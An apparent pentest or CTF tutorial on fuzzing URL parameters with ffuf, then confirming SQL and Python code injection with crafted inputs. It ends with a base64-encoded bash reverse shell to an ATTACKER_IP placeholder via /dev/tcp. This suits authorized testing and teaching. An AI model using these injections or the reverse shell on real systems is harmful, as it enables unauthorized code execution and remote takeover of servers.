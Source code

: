 Fuzzing URL Parameters can show easy ways to get code execution, sqli etc.

# Example
Take the following request:

![image](https://github.com/user-attachments/assets/414ef308-71c2-436b-bfaf-f3d8e690bc76)

## Step 1: Copy to file
![image](https://github.com/user-attachments/assets/dc63395b-ad89-431a-bb16-17cb4b8fcfdf)

In this case, the file is saved as "search.req".

## Step 2: Add fuzz to request
![image](https://github.com/user-attachments/assets/1ffc985b-21b2-4d2a-a7ed-acab02dabe21)

## Step 3: ffuf
```bash
ffuf -request search.req -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -ms 0
```
-request-proto only is required for http as https is the default.
## Step 4: Analyze output
![image](https://github.com/user-attachments/assets/9ff86037-bf98-4763-9f60-4a686f5a853e)

This shows that when the parameter has a \ or ' at the end of it, the page returns nothing - indicating either SQL injection or command injection.

### SQLi Checks
Try standard SQLi checks such as -- - # // 

### Command Injection Checks
If there is a ', then it may form part of a statement - for example: print('INPUT'). So if INPUT=')# and it is similar to the example, then the statement will be print('')#') which is valid and the page will return content instead of 0.

INPUT: 
```
abc'
```
![image](https://github.com/user-attachments/assets/250bcf49-a2c6-45db-b5bd-339990ce7b04)

INPUT:
```
abc')#
```
![image](https://github.com/user-attachments/assets/047e987e-6749-4fdf-9962-aa6c2b2c2a04)

To demonstrate how this leads to code execution, let's try the following: 
```
abc')%20%2b%20print('Code%20Execution%20possible!')%23%20
``` 
![image](https://github.com/user-attachments/assets/13445b76-739a-421a-ac3f-bc6ea4f74a46)

To get a reverse shell, do the following:
```bash
echo -n "bash -c 'bash -i >& /dev/tcp/$(ATTACKER_IP)/$(ATTACKER_PORT) 0>&1'" | base64
```
